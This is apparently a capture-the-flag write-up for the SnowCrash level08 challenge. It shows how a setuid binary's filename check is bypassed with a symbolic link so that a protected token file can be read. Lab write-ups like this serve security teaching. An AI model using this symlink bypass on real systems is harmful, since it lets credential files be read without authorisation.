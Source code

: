 `ls -l` </br>
```-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08``` </br>
```-rw-------  1 flag08 flag08    26 Mar  5  2016 token```

level08 seems to print the content of the file given as the first argument, however we can't read token:
```You may not access 'token'```

If we do a `strings` on the level08 binary, we can see that the programs calls strstr and that 'token' is hard written in the code.
Maybe it won't read anyfile with 'token' in the name. 

`level08@SnowCrash:~$ ./level08 /tmp/cctoken`</br>
`You may not access '/tmp/cctoken'`</br>

How to make it access and read token through a file not named 'token'?

https://techterms.com/definition/symbolic_link

We can use symbolic links: </br>

`ln -s ~/token /tmp/non` </br>
`./level08 /tmp/non` </br>
gives the token.
